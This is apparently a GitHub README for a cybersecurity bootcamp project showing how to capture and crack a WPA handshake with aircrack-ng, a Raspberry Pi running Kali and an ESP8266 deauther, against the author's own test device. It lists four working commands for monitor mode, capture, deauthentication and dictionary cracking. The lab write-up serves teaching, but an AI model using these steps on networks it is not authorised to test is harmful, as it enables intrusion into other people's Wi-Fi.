




# Cybersecurity-Bootcamp-Final-Project

# [Video Demonstration](https://youtu.be/wN4miSjzfVc)
**BootCon 2023 Project 4 demonstration of capturing and cracking WPA Handshakes**

## Tools Used

* [Aircrack-ng Suite Of Tools](https://www.aircrack-ng.org/)
* [Raspberry Pi 4](https://www.raspberrypi.com/products/raspberry-pi-4-model-b/specifications/)
* [Wemos D1 Mini](https://www.wemos.cc/en/latest/d1/d1_mini.html)
* [NodeMCU](https://nodemcu.readthedocs.io/en/release/)
* [Kali Linux](https://www.kali.org/docs/arm/raspberry-pi-4/)
* [Tasmota](https://tasmota.github.io/docs/)
* [ESP8266 Deauther](https://deauther.com/docs/about/)

## Overview
## What is the 4-way handshake?
The handshake is a term that includes the first four messages of the encryption connection process 
between the client that wants the WI-FI and the AP that provide it.

I won’t be going into details on setting up the attack and victim machine as this is out of the scope of this presentation.
The attack machine is a raspberry pi 4b with kali linux installed 

### Aircrack-ng is a complete suite of tools to assess WiFi network security that focuses on different areas of WIFI security like:
* Monitoring: Packet capture and export of data to text files for further processing by third party tools.
* Attacking: Replay attacks, deauthentication, fake access points and others via packet injection.
* Testing: Checking WiFi cards and driver capabilities. 
* Cracking: WEP and WPA PSK (WPA 1 and 2).

The Victim’s machine has Tasmota, an open source firmware for ESP devices. It allows for total local control using MQTT, Web UI, HTTP or Serial.  
I’m using for this demo a Wemos D1 Mini which has the esp8266 chip. 
Deauther = Nodemcu 12p with the ESP8266 Wifi deauther firmware install.  
This does the same thing as Aireplay-ng and sends deauthentication packets to the victim's machine.
 
 

Disclaimer:  

 
 

  
Topology:  

  
Captured Traffic:    
  

 
 

## Commands
1. To put the wireless interface into monitoring mode we use the command.
 
        sudo airmon-ng start wlan0
        
2. Next, we’ll dump the wireless traffic and write to a file with.
 
        sudo airodump-ng -channel # -w handshake-capture wlan0mon  
        
3. Use the ESP8266 WiFi-Deauther to send deauther messages or use.

        sudo aireplay-ng –deauth 0 -a AP mac address -c victim’s mac address wla0mon
        
4. Crack captured handshake with.

        sudo aircrack-ng ~/handshake-capture.cap -w /usr/share/wordlist/fasttrack.txt                                                                        
                                                                        
                                                                        
                                                                        
                                                                 
